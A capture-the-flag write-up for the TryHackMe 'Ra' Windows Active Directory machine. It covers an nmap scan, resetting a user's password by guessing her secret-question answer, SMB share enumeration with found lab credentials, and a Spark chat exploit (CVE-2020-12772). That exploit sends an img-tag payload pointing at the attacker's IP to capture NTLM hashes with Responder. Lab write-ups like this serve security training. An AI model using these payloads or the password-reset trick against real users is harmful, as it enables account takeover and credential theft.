ra
THM: Ra
Enumeration
Nmap
Nmap scan report for 10.10.61.102
Host is up (0.21s latency).
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Windcorp.
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2022-07-05 10:10:49Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
2179/tcp open vmrdp?
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5222/tcp open jabber Ignite Realtime Openfire Jabber server 3.10.0 or later
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after: 2025-04-30T08:39:00
|_ssl-date: 2022-07-05T10:12:45+00:00; -6s from scanner time.
| xmpp-info:
| STARTTLS Failed
| info:
| capabilities:
| compression_methods:
| stream_id: ql1ey8azp
| unknown:
| errors:
| invalid-namespace
| (timeout)
| xmpp:
| version: 1.0
| auth_mechanisms:
|_ features:
5223/tcp open ssl/jabber
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after: 2025-04-30T08:39:00
| xmpp-info:
| STARTTLS Failed
| info:
| capabilities:
| compression_methods:
| unknown:
| errors:
| (timeout)
| xmpp:
| auth_mechanisms:
|_ features:
| fingerprint-strings:
| RPCCheck:
|_ <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:str
eam>
|_ssl-date: 2022-07-05T10:12:43+00:00; -5s from scanner time.
5229/tcp open jaxflow?
5262/tcp open jabber Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info:
| STARTTLS Failed
| info:
| capabilities:
| compression_methods:
| stream_id: 8llxbuqonw
| unknown:
| errors:
| invalid-namespace
| (timeout)
| xmpp:
| version: 1.0
| auth_mechanisms:
|_ features:
5263/tcp open ssl/jabber
|_ssl-date: 2022-07-05T10:12:43+00:00; -6s from scanner time.
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after: 2025-04-30T08:39:00
| xmpp-info:
| STARTTLS Failed
| info:
| capabilities:
| compression_methods:
| unknown:
| errors:
| (timeout)
| xmpp:
| auth_mechanisms:
|_ features:
| fingerprint-strings:
| RPCCheck:
|_ <stream:error xmlns:stream="http://etherx.jabber.org/streams"><not-well-formed xmlns="urn:ietf:params:xml:ns:xmpp-streams"/></stream:error></stream:str
eam>
5269/tcp open xmpp Wildfire XMPP Client
| xmpp-info:
| STARTTLS Failed
| info:
| capabilities:
| compression_methods:
| unknown:
| errors:
| (timeout)
| xmpp:
| auth_mechanisms:
|_ features:
5270/tcp open ssl/xmpp Wildfire XMPP Client
|_ssl-date: 2022-07-05T10:12:43+00:00; -5s from scanner time.
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after: 2025-04-30T08:39:00
5275/tcp open jabber Ignite Realtime Openfire Jabber server 3.10.0 or later
| xmpp-info:
| STARTTLS Failed
| info:
| capabilities:
| compression_methods:
| stream_id: 5wyjhbdxpm
| unknown:
| errors:
| invalid-namespace
| (timeout)
| xmpp:
| version: 1.0
| auth_mechanisms:
|_ features:
5276/tcp open ssl/jabber Ignite Realtime Openfire Jabber server 3.10.0 or later
|_ssl-date: 2022-07-05T10:12:43+00:00; -6s from scanner time.
| xmpp-info:
| STARTTLS Failed
| info:
| capabilities:
| compression_methods:
| unknown:
| errors:
| (timeout)
| xmpp:
| auth_mechanisms:
|_ features:
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after: 2025-04-30T08:39:00
7070/tcp open http Jetty 9.4.18.v20190429
|_http-server-header: Jetty(9.4.18.v20190429)
|_http-title: Openfire HTTP Binding Service
7443/tcp open ssl/http Jetty 9.4.18.v20190429
|_http-server-header: Jetty(9.4.18.v20190429)
|_http-title: Openfire HTTP Binding Service
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after: 2025-04-30T08:39:00
7777/tcp open socks5 (No authentication; connection failed)
| socks-auth-info:
|_ No authentication
9090/tcp open zeus-admin?
| fingerprint-strings:
| GetRequest:
| HTTP/1.1 200 OK
| Date: Tue, 05 Jul 2022 10:10:55 GMT
| Last-Modified: Fri, 31 Jan 2020 17:54:10 GMT
| Content-Type: text/html
| Accept-Ranges: bytes
| Content-Length: 115
| <html>
| <head><title></title>
| <meta http-equiv="refresh" content="0;URL=index.jsp">
| </head>
| <body>
| </body>
| </html>
| JavaRMI, drda, ibm-db2-das, informix:
| HTTP/1.1 400 Illegal character CNTL=0x0
| Content-Type: text/html;charset=iso-8859-1
| Content-Length: 69
| Connection: close
| <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
| SqueezeCenter_CLI:
| HTTP/1.1 400 No URI
| Content-Type: text/html;charset=iso-8859-1
| Content-Length: 49
| Connection: close
| <h1>Bad Message 400</h1><pre>reason: No URI</pre>
| WMSRequest:
| HTTP/1.1 400 Illegal character CNTL=0x1
| Content-Type: text/html;charset=iso-8859-1
| Content-Length: 69
| Connection: close
|_ <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x1</pre>
9091/tcp open xmltec-xmlmail?
| ssl-cert: Subject: commonName=fire.windcorp.thm
| Subject Alternative Name: DNS:fire.windcorp.thm, DNS:*.fire.windcorp.thm
| Not valid before: 2020-05-01T08:39:00
|_Not valid after: 2025-04-30T08:39:00
9389/tcp open mc-nmf .NET Message Framing
49671/tcp open msrpc Microsoft Windows RPC
49674/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49675/tcp open msrpc Microsoft Windows RPC
49676/tcp open msrpc Microsoft Windows RPC
49745/tcp open msrpc Microsoft Windows RPC
Its a windows machine on Active Directory with lots of open ports.
Website Enumeration

Upon opening the webpage and looking into network, we find most rquests from fire.windcorp.thm
So we will add it our hosts file.

abcdef

Website Foothold
When we click on Reset Password, we get a window asking for username and answer to a secret question.
Lets explore the site to find these details.

Credential Search
We scroll down the page and find an employee picture with a dog whom she refers to as her best friend. Lets inspect the image.

The name of the file is lilyleAndSparky.jpg
We use these in the credentail reset window
Username: lilyle
What is/was your favourite pet's name: Sparky

Then Hit Reset

Credentials Found:
Username: lilyle
Password: ChangeMe#1234
Next, we need to verify whether the credentials found is of the domain/machine or not. For this testing purpose we use crackmapexec
crackmapexec smb 10.10.111.3 -u lilyle -p ChangeMe#1234

Note: From here, we can also try to Login to the system using Evil-WinRM.
However, the user must be in the group “Remote Management Users” for it to work.
[As it turns out the user lilyle is not in that group. Evil-WinRM login not possbile]
Samba Enumeration
As we are sure that we have a user credentail, lets enumerate Samba using it.
We will use smbmap
smbmap -H 10.10.111.3 -u lilyle -p ChangeMe#1234 -R
[+] IP: 10.10.111.3:445 Name: fire.windcorp.thm
Disk Permissions Comment
---- ----------- -------
ADMIN$ NO ACCESS Remote Admin
C$ NO ACCESS Default share
IPC$ READ ONLY Remote IPC
.\IPC$\*
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 InitShutdown
fr--r--r-- 5 Mon Jan 1 05:53:28 1601 lsass
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 ntsvcs
fr--r--r-- 4 Mon Jan 1 05:53:28 1601 scerpc
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 Winsock2\CatalogChangeListener-22c-0
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 epmapper
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 Winsock2\CatalogChangeListener-2c0-0
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 LSM_API_service
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 eventlog
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 Winsock2\CatalogChangeListener-634-0
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 atsvc
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 Winsock2\CatalogChangeListener-774-0
fr--r--r-- 4 Mon Jan 1 05:53:28 1601 wkssvc
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 Winsock2\CatalogChangeListener-348-0
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 Winsock2\CatalogChangeListener-348-1
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 RpcProxy\49674
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 1f57f139904a3038
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 RpcProxy\593
fr--r--r-- 4 Mon Jan 1 05:53:28 1601 srvsvc
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 spoolss
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 Winsock2\CatalogChangeListener-924-0
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 netdfs
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 ROUTER
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 W32TIME_ALT
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 Winsock2\CatalogChangeListener-334-0
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 Winsock2\CatalogChangeListener-d24-0
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 PSHost.133015911942074326.4116.DefaultAppDomain.powershell
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 TermSrv_API_service
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 Ctx_WinStation_API_service
fr--r--r-- 3 Mon Jan 1 05:53:28 1601 SessEnvPublicRpc
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 Winsock2\CatalogChangeListener-1780-0
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 iisipmd98a47c3-d054-43cb-b1e4-78c8a527c8a0
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 iislogpiped0963e57-86c9-4b02-a5a9-35ef24a25a42
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 PSHost.133015913380842745.6828.DefaultAppDomain.powershell
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 Winsock2\CatalogChangeListener-cf0-0
fr--r--r-- 1 Mon Jan 1 05:53:28 1601 PSHost.133015911908150522.3604.DefaultAppDomain.sme
NETLOGON READ ONLY Logon server share
.\NETLOGON\*
dr--r--r-- 0 Sat May 2 15:32:19 2020 .
dr--r--r-- 0 Sat May 2 15:32:19 2020 ..
Shared READ ONLY
.\Shared\*
dr--r--r-- 0 Sat May 30 06:15:42 2020 .
dr--r--r-- 0 Sat May 30 06:15:42 2020 ..
fr--r--r-- 45 Fri May 1 21:02:36 2020 Flag 1.txt
fr--r--r-- 29526628 Sat May 30 06:15:01 2020 spark_2_8_3.deb
fr--r--r-- 99555201 Sun May 3 16:38:39 2020 spark_2_8_3.dmg
fr--r--r-- 78765568 Sun May 3 16:38:39 2020 spark_2_8_3.exe
fr--r--r-- 123216290 Sun May 3 16:38:39 2020 spark_2_8_3.tar.gz
SYSVOL READ ONLY Logon server share
.\SYSVOL\*
dr--r--r-- 0 Sat May 2 15:32:20 2020 .
dr--r--r-- 0 Sat May 2 15:32:20 2020 ..
dr--r--r-- 0 Sat May 2 15:32:20 2020 NRznLVEcPj
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 windcorp.thm
.\SYSVOL\windcorp.thm\*
dr--r--r-- 0 Thu Apr 30 20:47:20 2020 .
dr--r--r-- 0 Thu Apr 30 20:47:20 2020 ..
dr--r--r-- 0 Wed Jul 6 20:01:39 2022 DfsrPrivate
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 Policies
dr--r--r-- 0 Sat May 2 15:32:19 2020 scripts
.\SYSVOL\windcorp.thm\Policies\*
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 .
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 ..
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 {31B2F340-016D-11D2-945F-00C04FB984F9}
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 {6AC1786C-016F-11D2-945F-00C04fB984F9}
.\SYSVOL\windcorp.thm\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\*
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 .
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 ..
fr--r--r-- 23 Fri May 8 18:45:01 2020 GPT.INI
dr--r--r-- 0 Fri May 1 17:02:28 2020 MACHINE
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 USER
.\SYSVOL\windcorp.thm\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\*
dr--r--r-- 0 Thu May 7 13:04:46 2020 .
dr--r--r-- 0 Thu May 7 13:04:46 2020 ..
dr--r--r-- 0 Thu May 7 13:04:46 2020 Applications
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 Microsoft
fr--r--r-- 2792 Thu Apr 30 20:48:05 2020 Registry.pol
dr--r--r-- 0 Fri May 1 17:02:28 2020 Scripts
.\SYSVOL\windcorp.thm\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\*
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 .
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 ..
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 Windows NT
.\SYSVOL\windcorp.thm\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Scripts\*
dr--r--r-- 0 Fri May 1 17:02:28 2020 .
dr--r--r-- 0 Fri May 1 17:02:28 2020 ..
dr--r--r-- 0 Fri May 1 17:02:28 2020 Shutdown
dr--r--r-- 0 Fri May 1 17:02:28 2020 Startup
.\SYSVOL\windcorp.thm\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\*
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 .
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 ..
fr--r--r-- 23 Thu May 7 13:04:35 2020 GPT.INI
dr--r--r-- 0 Fri May 1 15:25:05 2020 MACHINE
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 USER
.\SYSVOL\windcorp.thm\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\*
dr--r--r-- 0 Fri May 1 15:25:05 2020 .
dr--r--r-- 0 Fri May 1 15:25:05 2020 ..
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 Microsoft
dr--r--r-- 0 Fri May 1 15:25:05 2020 Scripts
.\SYSVOL\windcorp.thm\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\*
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 .
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 ..
dr--r--r-- 0 Thu Apr 30 20:41:10 2020 Windows NT
.\SYSVOL\windcorp.thm\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Scripts\*
dr--r--r-- 0 Fri May 1 15:25:05 2020 .
dr--r--r-- 0 Fri May 1 15:25:05 2020 ..
dr--r--r-- 0 Fri May 1 15:25:05 2020 Shutdown
dr--r--r-- 0 Fri May 1 15:25:05 2020 Startup
Users READ ONLY
.\Users\*
dw--w--w-- 0 Sun May 3 03:35:58 2020 .
dw--w--w-- 0 Sun May 3 03:35:58 2020 ..
dr--r--r-- 0 Sun May 10 16:48:11 2020 Administrator
dr--r--r-- 0 Fri May 1 06:03:55 2020 All Users
dr--r--r-- 0 Fri May 1 18:39:44 2020 angrybird
dr--r--r-- 0 Fri May 1 18:39:34 2020 berg
dr--r--r-- 0 Fri May 1 18:39:22 2020 bluefrog579
dr--r--r-- 0 Sun May 3 19:00:02 2020 brittanycr
dr--r--r-- 0 Fri May 1 18:39:08 2020 brownostrich284
dr--r--r-- 0 Wed Jul 6 19:58:34 2022 buse
dw--w--w-- 0 Fri May 1 05:05:11 2020 Default
dr--r--r-- 0 Fri May 1 06:03:55 2020 Default User
fr--r--r-- 174 Fri May 1 06:01:55 2020 desktop.ini
dr--r--r-- 0 Fri May 1 18:38:54 2020 edward
dr--r--r-- 0 Sun May 3 05:00:16 2020 freddy
dr--r--r-- 0 Fri May 1 18:38:28 2020 garys
dr--r--r-- 0 Wed Jul 6 20:16:05 2022 goldencat416
dr--r--r-- 0 Fri May 1 18:38:17 2020 goldenwol
dr--r--r-- 0 Fri May 1 18:38:06 2020 happ
dr--r--r-- 0 Fri May 1 18:37:53 2020 happyme
dr--r--r-- 0 Fri May 1 18:37:42 2020 Luis
dr--r--r-- 0 Fri May 1 18:37:31 2020 orga
dr--r--r-- 0 Fri May 1 18:37:19 2020 organicf
dr--r--r-- 0 Wed Jul 6 20:16:59 2022 organicfish718
dr--r--r-- 0 Fri May 1 18:37:06 2020 pete
dw--w--w-- 0 Thu Apr 30 20:05:47 2020 Public
dr--r--r-- 0 Fri May 1 18:36:54 2020 purplecat
dr--r--r-- 0 Fri May 1 18:36:42 2020 purplepanda
dr--r--r-- 0 Fri May 1 18:36:31 2020 sadswan
dr--r--r-- 0 Wed Jul 6 20:17:23 2022 sadswan869
dr--r--r-- 0 Fri May 1 18:36:20 2020 sheela
dr--r--r-- 0 Fri May 1 18:35:39 2020 silver
dr--r--r-- 0 Fri May 1 18:35:24 2020 smallf
dr--r--r-- 0 Fri May 1 18:35:05 2020 spiff
dr--r--r-- 0 Fri May 1 18:34:49 2020 tinygoos
dr--r--r-- 0 Fri May 1 18:33:57 2020 whiteleopard
.\Users\Default\*
dw--w--w-- 0 Fri May 1 05:05:11 2020 .
dw--w--w-- 0 Fri May 1 05:05:11 2020 ..
dr--r--r-- 0 Fri May 1 06:03:35 2020 AppData
dr--r--r-- 0 Fri May 1 05:05:11 2020 Application Data
dr--r--r-- 0 Fri May 1 05:05:11 2020 Cookies
dw--w--w-- 0 Fri May 1 06:03:35 2020 Desktop
dw--w--w-- 0 Fri May 1 05:05:11 2020 Documents
dw--w--w-- 0 Fri May 1 06:03:35 2020 Downloads
dw--w--w-- 0 Fri May 1 06:03:35 2020 Favorites
dw--w--w-- 0 Fri May 1 06:03:35 2020 Links
dr--r--r-- 0 Fri May 1 05:05:11 2020 Local Settings
dw--w--w-- 0 Fri May 1 06:03:35 2020 Music
dr--r--r-- 0 Fri May 1 05:05:11 2020 My Documents
dr--r--r-- 0 Fri May 1 05:05:11 2020 NetHood
fr--r--r-- 262144 Fri May 1 06:03:04 2020 NTUSER.DAT
fr--r--r-- 57344 Fri May 1 06:03:04 2020 NTUSER.DAT.LOG1
fr--r--r-- 0 Fri May 1 06:03:35 2020 NTUSER.DAT.LOG2
fr--r--r-- 65536 Fri May 1 05:05:11 2020 NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TM.blf
fr--r--r-- 524288 Fri May 1 05:05:11 2020 NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000001.regtrans-ms
fr--r--r-- 524288 Fri May 1 05:05:11 2020 NTUSER.DAT{1c3790b4-b8ad-11e8-aa21-e41d2d101530}.TMContainer00000000000000000002.regtrans-ms
dw--w--w-- 0 Fri May 1 06:03:35 2020 Pictures
dr--r--r-- 0 Fri May 1 05:05:11 2020 PrintHood
dr--r--r-- 0 Fri May 1 05:05:11 2020 Recent
dr--r--r-- 0 Fri May 1 06:03:35 2020 Saved Games
dr--r--r-- 0 Fri May 1 05:05:11 2020 SendTo
dr--r--r-- 0 Fri May 1 05:05:11 2020 Start Menu
dr--r--r-- 0 Fri May 1 05:05:11 2020 Templates
dw--w--w-- 0 Fri May 1 06:03:35 2020 Videos
.\Users\Default\AppData\*
dr--r--r-- 0 Fri May 1 06:03:35 2020 .
dr--r--r-- 0 Fri May 1 06:03:35 2020 ..
dr--r--r-- 0 Fri May 1 05:05:11 2020 Local
dr--r--r-- 0 Fri May 1 06:03:35 2020 Roaming
.\Users\Default\AppData\Local\*
dr--r--r-- 0 Fri May 1 05:05:11 2020 .
dr--r--r-- 0 Fri May 1 05:05:11 2020 ..
dr--r--r-- 0 Fri May 1 05:05:11 2020 Application Data
dr--r--r-- 0 Fri May 1 05:05:11 2020 History
dr--r--r-- 0 Fri May 1 06:03:35 2020 Microsoft
dr--r--r-- 0 Fri May 1 06:03:35 2020 Temp
dr--r--r-- 0 Fri May 1 05:05:11 2020 Temporary Internet Files
.\Users\Default\AppData\Local\Microsoft\*
dr--r--r-- 0 Fri May 1 06:03:35 2020 .
dr--r--r-- 0 Fri May 1 06:03:35 2020 ..
dr--r--r-- 0 Fri May 1 06:03:35 2020 InputPersonalization
dr--r--r-- 0 Fri May 1 05:05:11 2020 Windows
dr--r--r-- 0 Fri May 1 06:03:35 2020 Windows Sidebar
dr--r--r-- 0 Fri May 1 06:03:35 2020 WindowsApps
.\Users\Default\AppData\Local\Microsoft\InputPersonalization\*
dr--r--r-- 0 Fri May 1 06:03:35 2020 .
dr--r--r-- 0 Fri May 1 06:03:35 2020 ..
dr--r--r-- 0 Fri May 1 06:03:35 2020 TrainedDataStore
.\Users\Default\AppData\Local\Microsoft\Windows\*
dr--r--r-- 0 Fri May 1 05:05:11 2020 .
dr--r--r-- 0 Fri May 1 05:05:11 2020 ..
dr--r--r-- 0 Fri May 1 06:03:35 2020 CloudStore
dr--r--r-- 0 Fri May 1 06:03:35 2020 GameExplorer
dr--r--r-- 0 Fri May 1 06:03:35 2020 History
dr--r--r-- 0 Fri May 1 06:03:35 2020 INetCache
dr--r--r-- 0 Fri May 1 06:03:35 2020 INetCookies
dr--r--r-- 0 Fri May 1 06:03:35 2020 Shell
dr--r--r-- 0 Fri May 1 05:05:11 2020 Temporary Internet Files
dr--r--r-- 0 Fri May 1 06:03:35 2020 WinX
.\Users\Default\AppData\Local\Microsoft\Windows Sidebar\*
dr--r--r-- 0 Fri May 1 06:03:35 2020 .
dr--r--r-- 0 Fri May 1 06:03:35 2020 ..
dr--r--r-- 0 Fri May 1 06:03:35 2020 Gadgets
fr--r--r-- 80 Fri May 1 06:03:04 2020 settings.ini
.\Users\Default\AppData\Roaming\*
dr--r--r-- 0 Fri May 1 06:03:35 2020 .
dr--r--r-- 0 Fri May 1 06:03:35 2020 ..
dr--r--r-- 0 Fri May 1 06:03:35 2020 Microsoft
.\Users\Default\AppData\Roaming\Microsoft\*
dr--r--r-- 0 Fri May 1 06:03:35 2020 .
dr--r--r-- 0 Fri May 1 06:03:35 2020 ..
dr--r--r-- 0 Fri May 1 06:03:35 2020 Internet Explorer
dr--r--r-- 0 Fri May 1 06:03:35 2020 Windows
.\Users\Default\AppData\Roaming\Microsoft\Internet Explorer\*
dr--r--r-- 0 Fri May 1 06:03:35 2020 .
dr--r--r-- 0 Fri May 1 06:03:35 2020 ..
dw--w--w-- 0 Fri May 1 06:03:35 2020 Quick Launch
.\Users\Default\AppData\Roaming\Microsoft\Windows\*
dr--r--r-- 0 Fri May 1 06:03:35 2020 .
dr--r--r-- 0 Fri May 1 06:03:35 2020 ..
dr--r--r-- 0 Fri May 1 06:03:35 2020 CloudStore
dr--r--r-- 0 Fri May 1 06:03:35 2020 Network Shortcuts
dr--r--r-- 0 Fri May 1 06:03:35 2020 Printer Shortcuts
dw--w--w-- 0 Fri May 1 06:03:35 2020 Recent
dw--w--w-- 0 Fri May 1 06:03:35 2020 SendTo
dw--w--w-- 0 Fri May 1 06:03:35 2020 Start Menu
dr--r--r-- 0 Fri May 1 06:03:35 2020 Templates
.\Users\Default\Documents\*
dw--w--w-- 0 Fri May 1 05:05:11 2020 .
dw--w--w-- 0 Fri May 1 05:05:11 2020 ..
dr--r--r-- 0 Fri May 1 05:05:11 2020 My Music
dr--r--r-- 0 Fri May 1 05:05:11 2020 My Pictures
dr--r--r-- 0 Fri May 1 05:05:11 2020 My Videos
Inresting FInd

Smbclient
We get the flag and inspect the executible files inside the share.

We once again take a look at the nmap results and see that port 5222 is open:
5222/tcp open jabber syn-ack Ignite Realtime Openfire Jabber server 3.10.0 or later
This, combined with the spark_2_8_3 files in the smb share got me thinking that we need to install the Spark IM client and somehow do some client-side exploitation.
We download the installation file for Spark and install it:
dpkg -i spark_2_8_3.deb

The package name is: spark-messenger
Foothold
Note: The Ignite Realtime Openfire Jabber server 3.10.0 & the executible spark suggest that the server is running an Instant Messaging System.
Upon Researching Further on the spark, we find that older version of the software have a known vulnerability.
After a bit of googling I found the following CVE: CVE-2020-12772.
And eventually I found a Github repository with all I needed to perform the client exploitation: https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md
By sending the following payload to the user buse and listening with Responder, we can get the NTLM hash of the user clicking the link:
<img src="MY-IP/test.jpg">
Lets run the spark-messenger and try to login with our credentials
I run spark from Desktop and Login


Now, as per the exploit. If we message the payload <img src="MY-IP/test.jpg"> to any user. Once the user clicks on the image link, an NTLM hash of the user is sent to our system, running the spark.
My Payload:
Hello,
I need some help. Please check the following link.
<img src="http://10.11.72.31/test.jpg">
Notice:
In Real World, we will get the NTLM of the user clicking on the link. Since, this is a CTF I guess there will be a particular user to whom we can send this, so that it will get clicked automatically for CTF Purposes.
Where to Find the Users List
Default Website Source Code:

We find a few users in the Website and thier windcorp ids. We will open the Responder and send the payload to users one by one. I found success on the user buse
